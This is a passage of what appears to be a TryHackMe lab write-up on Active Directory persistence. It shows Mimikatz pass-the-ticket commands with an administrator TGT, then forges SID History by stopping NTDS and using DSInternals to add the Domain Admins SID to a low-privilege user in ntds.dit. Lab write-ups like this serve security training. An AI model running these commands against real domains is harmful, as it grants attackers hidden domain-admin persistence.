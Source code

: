 We can now use `Mimikatz` to load the TGT and authenticate to `THMDC`:

```powershell
> C:\Tools\mimikatz_trunk\x64\mimikatz.exe
> kerberos::ptt administrator.kirbi
> exit
```

Check if you have access using `dir`:

```powershell
> dir \\THMDC.za.tryhackme.loc\c$\
```

### Task 5

For this task we will be enabling persistence by forging Security IDentifiers (SID) History.

We will connect using ssh on the `THMDC` machine using the administrator credentials:

```bash
$ ssh za.tryhackme.loc\\Administrator@thmdc.za.tryhackme.loc
```

We will gather information regarding our low-privilege user SID history:

```powershell
> Get-ADUser christine.hall -properties sidhistory, memberof
# christine.hall is the low privilege AD user in my case
```

Since our user does not have any SID History, we can get the SID of the Domain Admins group, and try to match the SID History:

```powershell
> Get-ADGroup "Domain Admins"
```

We will use `DSInternals` tools to patch the `ntds.file`, the AD database where all information is stored:

```powershell
> Stop-Service -Name ntds -force
> Add-ADDBSidHistory -SamAccountName 'christine.hall' -SidHistory 'S-1-5-21-3885271727-2693558621-2658995185-512' -DatabasePath C:\Windows\NTDS\ntds.dit
> Start-Service -Name ntds
```

After these steps have been performed, we can ssh into `THMWRK1` with our low-privileged credentials and verify that the SID history was added and that we now have Domain Admin privileges:

```bash
$ ssh za.tryhackme.loc\\christine.hall@thmwrk1.za.tryhackme.loc
# christine.hall is the low-privilege AD account in my case
```

Check the SID history with the powershell command:

```powershell
> powershell
> Get-ADUser christine.hall -Properties sidhistory
```
